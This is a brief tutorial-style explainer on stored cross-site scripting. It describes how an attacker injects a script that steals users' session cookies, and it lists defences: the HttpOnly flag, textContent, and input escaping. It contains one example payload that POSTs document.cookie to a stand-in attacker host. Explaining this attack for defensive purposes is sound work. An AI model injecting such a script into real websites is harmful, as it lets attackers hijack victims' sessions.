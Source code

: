 #### Cross-Site Scripting

XSS vulnerability consits of simple steps:

_scenario implies, that vulnerable website uses cookies for users session persistence_

1. **Attacker** seeking for some fields/text areas, that can be pushed to the server and further - saved in database.
2. **Attacker** modifies data in this areas such that it contains correct html/js syntax like 
```javascript 
<script>fetch('https://attackers.site.org/user/data', {method: 'POST', body: document.cookie});<script>
```
3. **Victim** visits this site where server now returns html with fields, which contains **Attacker's** script.
4. **Victim's** browser parse this correct script and therefore sends `document.cookie` to **Attacker's** server.
5. **Attacker** don't even need to know user's login/password. He just need to put **Victim's** cookies under his browser 
(since `document.cookies` allows to fetch local cookie on the same domain), 
that lets him to be logged in on vulnerable website.


##### Methods to protect:

1. Server response, that contains HTTP header `Set-Cookie` (which is used to store cookie on the client-side) 
should add `HttpOnly` flag, that prevents cookie from being readed using `document.cookie`, but allows to interchange cookie
using http requests.
2. One another step is to use `element.textContent` instead of `element.innerHTML` for fields/text areas. 
Browser willn't parse any valid html/js inside `element.textContent` attribute.
3. Another approach is to sanitize symbols in this areas on the server-side, e.g. `<>/` to `&lt;&gt;`.
